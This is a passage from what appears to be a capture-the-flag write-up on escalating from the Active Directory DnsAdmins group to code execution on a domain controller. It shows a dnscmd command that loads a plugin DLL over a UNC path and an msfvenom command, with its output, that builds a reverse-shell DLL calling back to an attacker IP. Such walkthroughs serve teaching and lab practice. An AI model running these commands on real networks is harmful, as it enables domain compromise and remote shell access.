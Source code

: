 The [Microsoft Documentation](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-dnsadmins) describes this DnsAdmins as:

> Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

By default the DNSAdmins don’t have the ability to start or stop the DNS service, but it’s not unusual for an admin to give this group that privilege.

### dnscmd

#### Vulnerability

Some googling around for this group led me to the [lolbas page](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) for `dnscmd` to load a dll over a UNC path. There’s a command to set a server level plugin dll:

```

dnscmd.exe /config /serverlevelplugindll \\path\to\dll

```

From [this blog post](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83):

> First, trying to run this as a weak domain user with no special permissions on the DNS server object (other than Generic Read, which is granted to all members of the Pre-Windows 2000 Compatible Access group, which by default contains the Domain Users group), the command fails with an access denied message. If we give our weak user write access to the server object, the command no longer fails. This means that members of DnsAdmins can successfully run this command.

Since ryan is in DnsAdmins, this is promising.

#### A Note About OPSEC

The attack here is to tell the DNS service on Resolute to use my dll as a plugin. I’m going to use `msfvenom` to create a dll that will, on loading, connect back to me. When `msfvenom` creates this payload, it will connect back, and wait for that session to end before continuing. This will hang the DNS service on Resolute. That’s fine for a CTF, but would make for a bad day in a real pentest.

To get around this, you can create a payload that starts the reverse shell in a new thread, and then continues, so that the DNS server can continue to start. IppSec tells me he’s going to walk through creating this payload in his video today if you are interested to check that out.

#### Create Payload

I’ll start with a basic `msfvenom` reverse shell payload as a dll. Defender is running on this host, and if I put the output file there, it does get eaten, but over a UNC path to a share it might be ok.

```

root@kali# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll -o rev.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
Saved as: rev.dll

```
